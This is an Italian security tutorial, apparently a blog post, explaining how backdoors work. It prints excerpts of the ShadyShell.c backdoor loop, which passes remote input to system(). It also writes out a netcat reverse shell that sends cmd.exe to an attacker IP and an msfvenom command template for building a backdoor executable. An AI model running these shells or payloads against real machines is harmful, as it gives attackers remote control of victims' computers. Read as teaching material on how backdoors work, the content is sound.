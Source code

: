 ```yaml
---
title: Backdoor - Fondamenti di Sicurezza Informatica
date: 2022-12-04 00:00:00 -500
categories: [Security Research, Malware Analysis]
tags: [backdoor,shadyshell,c,msfvenom]
image_path: /assets/
--- 
```


## Intro

Se vi siete mai interessati di sicurezza informatica, avrete sicuramente un’idea di come le backdoor funzionano e a cosa servono. A prescindere dalla tua preparazione, in questo articolo andrò a dissezionare tutto ciò che ti serve sapere sulle Backdoor.

In particolare vedremo:

1.  Funzionamento Backdoor
2.  Shadyshell.c | codice sorgente di una Backdoor scritta in C
3.  Creazione backdoor con msfvenom + connessione remota da terminale

Alla fine di questa lettura potrai spiegare ai tuoi amici le magie di un codice di queste proporzioni:

```c
if(bind(c,&s,sizeof(s))<0)ve("bind");dup2(c,1);dup2(c,2);s.sin_port=sizeof(u); if(recvfrom(c,&b,1024,0,&u,(int*)&(s.sin_port))<0)ve("socket"); if(connect(c,&u,sizeof(u))<0)ve("socket"); do{for(*v=b,p=0;**v&&((*v-b)<512||(p=*v));(*v)++)if(p||**v=='\r'||**v=='\n') {**v=0;break;}if(p)continue;system(b); recv(c,&b,1024,0);}while(1);exit(0);
```

e se per adesso ti sembra una utopia… non ti preoccupare. Io sono Matteo e ti guiderò in questo articolo conoscendo abbastanza bene le complicanze degli studi informatici-

Farò in modo di intrattenerti e di non dilungarmi in nozioni troppo specifiche, tediose o inutili.

# Funzionamento Backdoor

Una Backdoor è un software installato nel computer di una cybervittima in qualche modo. Finché è attiva, la backdoor fa in modo di inviare informazioni e ricevere **istruzioni** da un host remoto.

Fino a qui niente di spaventoso. Giusto? ﻿  
>Beh… se un Jimmy in Texas che prende il completo controllo del tuo PC non ti spaventa, dovresti riconsiderare un attimo quello che stai per leggere.

La semplicità e versatilità delle backdoor ha fatto in modo che quasi ogni software con nefaste intenzioni contenesse un pezzo di codice dedicato a questo.

Per ora vediamone in dettaglio in funzionamento:

-  Come le backdoor iniziano una connessione tra computer
-  Perché una backdoor rende il tuo PC una marionetta

## Come si crea la connessione tra i computer

Qualcuno di voi si starà chiedendo in che modo i due computer coinvolti nell’atto di scambiarsi dati comunicano.   
Le backdoor per le comunicazioni remote sfruttano il networking, gli indirizzi IP e le porte [0-36000].

Non appena la backdoor è in funzione si ottiene una sessione **shell**. Ogni istruzione, comando o funzione inviata attraverso la backdoor viene eseguita dalla vittima.

Ogni connessione internet che un computer stabilisce avviene grazie a procedure ideate dall’Organizzazione Internazionale della Standardizzazione [ISO]. Questi hanno deciso che ogni pacchetto di rete conterrà:

-   indirizzo IP sorgente
-   indirizzo IP destinatario
-   “Porta” sorgente
-   “Porta” destinatario

La vera e propria connessione si stabilisce solo se il computer della vittima “apre” una porta a noi attaccanti. Questo avviene quando la backdoor installata nel computer della vittima avvia un processo che fa esattamente questo: aprire una porta.

Normalmente un computer tende a rifiutare ogni connessione nefasta e non identificata. Semplicemente blocca ogni connessione che coinvolge una porta chiusa.

Cosa succede però nel momento in cui apriamo una porta in attesa di qualcosa?

Quando un qualsiasi host esterno (hacker) prova a comunicare attraverso quella porta… ecco che si può stabilire una connessione ed il computer vittima ci ascolta, adesso possiamo mandargli tutto ciò che vogliamo.

Adesso che la connessione è stabilita dobbiamo fare in modo che computer vittima **interpreti** quella serie di caratteri e di bit che stiamo comodamente digitando dalla nostra tastiera.

# Perché una backdoor rende il tuo PC una marionetta

Fin ora abbiamo visto come opera una backdoor quando viene eseguita da un computer. Ciò che manca al puzzle è comprendere in che modo i comandi inviati da noi vengono eseguiti dalla vittima.

Infatti questo non avviene in modo standard, deve essere il software backdoor ad inviare le nostre stringhe di caratteri ad un interprete per i comandi. 

Potrei semplicemente dirvi che il malware backdoor ha il compito di mantenere una connessione remota in modo da ricevere e salvare ogni carattere che mandato (dall'hacker) in un buffer o array, per poi eseguirlo con l’interprete di comandi locale. Invece vi mostro un pezzo di codice di una backdoor scritta in C.

```c
  do {
    for ( * v = b, p = 0; ** v && (( * v - b) < 512 || (p = * v));
      ( * v) ++)
      if (p || ** v == '\r' || ** v == '\n')

    {
      ** v = 0;
      break;
    }
    if (p) continue;
    system(b);
    recv(c, & b, 1024, 0);
  } while (1);
  exit(0);
}
```

Spiegazione del ciclo:

>Se non ci sono problemi di overflow con l’input remoto salvato in **b**:

```
esegui system(b);
```

>Aspetta per un altro pacchetto, metti di nuovo l’input remoto in **b** e ripeti.

Spaventoso, vero?

Questa backdoor si chiama ShadyShell.c ed è disponibile nell’archivio di malware di vx-underground.

# Come creare una backdoor con un comando

Se ti dicessi che con un solo comando puoi creare una backdoor per (quasi) ogni sistema vulnerabile?

Immaginiamo di avere come target un server Windows, vogliamo creare un software backdoor per avere una porta di accesso a questo sistema.

Normalmente risolverei un problema del genere scrivendo uno script o dei comandi BASH specifici.

Risoluzione con Bash & netcat:

```bash
# Target: 172.16.166.130
# Attacker: 192.168.1.116

# On Attacker: set a verbose(v) communication listener(l) on port(p) 4444 
nc -lvp 4444 

# On target: connect to host end execute(e) cmd.exe
nc.exe 192.168.1.116 -e cmd.exe
```

In questo caso però vogliamo creare un software che, quando eseguito, avvia una connessione diretta.

MSFvenom è un CLI-tool (strumento via terminale) che porta con sé un numero impressionante di impostazioni specifiche per la connessione remota tra due host.

In pratica MSFvenom genera un file backdoor con le nostre preferenze di: payload, formato, target…

```bash
msfvenom -p [payload] LHOST=[our IP] LPORT=[our port] -f exe > backdoor.exe
```

Il comando creerà un file che una volta eseguito dalla vittima connetterà il computer infetto al nostro (o viceversa).   
Vedi: [bind & reverse shell | differenze e usi comuni]

semplice… anche troppo. Immagina cosa puoi fare con un [Cheat Sheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom).